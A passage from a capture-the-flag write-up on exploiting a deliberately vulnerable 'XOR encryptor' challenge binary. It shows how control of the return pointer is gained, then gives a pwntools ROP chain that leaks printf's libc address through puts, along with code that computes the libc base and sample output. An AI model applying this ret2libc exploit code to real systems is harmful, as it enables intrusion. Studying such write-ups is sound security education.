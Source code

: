 ![pc1](pc1.png)

The return pointer points to the gadget that does `sub rsp, 0x50` and `0xc01db0075` is placed in the right spot. the last ret tried to set the program counter to `0xc01db0075`

SUCCESS! This is as good as pwndmfs!

### Leak the libc

Ready to get going with the ret2libc, we construct the following rop-chain using pwntools and add it to the payload in place of `0xc01db0075`


```python
rop = ROP(exe)
rop.puts(exe.got['printf'])
rop.raw(rop.ret.address)   #ALIGN!
rop.raw(exe.sym.main)
```

If you have done ret2libc before this should look familiar. rop.puts() does the pop rdi and argument handling stuff for you, and the stack needed aligning so we put another ret and then loop around to main to get another prompt for input.

This will call `puts` to output the address of `printf` in libc. Knowing an address in libc and it's offset will enable us to calculate any function or gadget in libc. This is powerful stuff!

TL;DR on the stack alignment is always align the stack on 16 bytes. Unaligned stack leads to all sorts of trouble. See the educational/rip writeup for an excellent explanation why. At this point I just automatically align 6 out of 10 times! 


Next we capture the address of `printf` outputted by `puts`. Then calculate the libc base by subtracting the print-offset in the libc ELF object.
After setting libc.address, any symbol will from now on output the actual address of the symbol.

```python
libc = ELF('./libc.so.6')
io.recvuntil(b'the results:\n')
libc_leak = u64(io.recvline().strip().ljust(8, b'\0'))
log.info(f"printf @ {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.printf
log.info(f"libc @ {hex(libc.address)}")
```

Output:
```
[*] printf @ 0x7ffff7e32c90
[*] libc @ 0x7ffff7dd1000
[*] Switching to interactive mode
Some people say xor encryption is not secure. That is obviously a lie.
What if i told you we can use TWO seperate keys for our encryption, and we keep the keys seucre on our server? No one will ever figure that out!
EPT presents, THE SECURE(tm) XOR ENCRYPT0R!
Enter ciphertext
> $  
```
